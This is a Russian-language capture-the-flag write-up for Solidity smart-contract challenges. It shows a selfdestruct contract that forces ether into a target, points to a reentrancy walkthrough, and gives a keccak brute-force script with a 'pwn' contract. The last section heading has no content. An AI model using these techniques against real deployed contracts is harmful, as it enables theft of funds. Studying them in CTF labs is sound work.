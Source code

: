 # 0. Unpayable
Задеплоим такой контракт:

```
contract Pay{
    receive() external payable{

    }
    function destroy(address payable addr) public{
        selfdestruct(addr);
    }
}
```
Пополним его баланс переводом на его адрес, потом вызовем `destroy(<адрес контракта Unpayable>)`

# 1. Bank
Типичный reentrancy, решение Ethernaut lvl 10 почти идеально [подходит](https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14) (отличается только имя одной функции)

# 2. MagicSequence
Нужно сбрутить 4 числа, такие, что старшие 4 байта хеша будут равны `[0xbeced095, 0x42a7b7dd, 0x45e010b9, 0xa86c339e]`:
```
from eth_hash.auto import keccak
for s in ["beced095", "42a7b7dd", "45e010b9", "a86c339e"]:
    for i in range(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF):
        if keccak((i).to_bytes(32, byteorder="big")).hex()[:8]==s:
            print(i)
            break
```
Получаем числа `42, 55, 256, 9876543`. Деплоим следующий контракт и вызываем функцию `pwn(<адрес контракта задания>)`:
```
interface Magic{
      function start() public returns(bool);
}
contract Player{
    uint[] nums;
    uint pointer;
    constructor() public{
        nums.push(42);
        nums.push(55);
        nums.push(256);
        nums.push(9876543);
        pointer = 0;
    }
    function number() public returns(uint){
        return nums[pointer++];
    }
    function pwn(address addr) public{
        Magic(addr).start();
    }
}
```
# 3. Executor

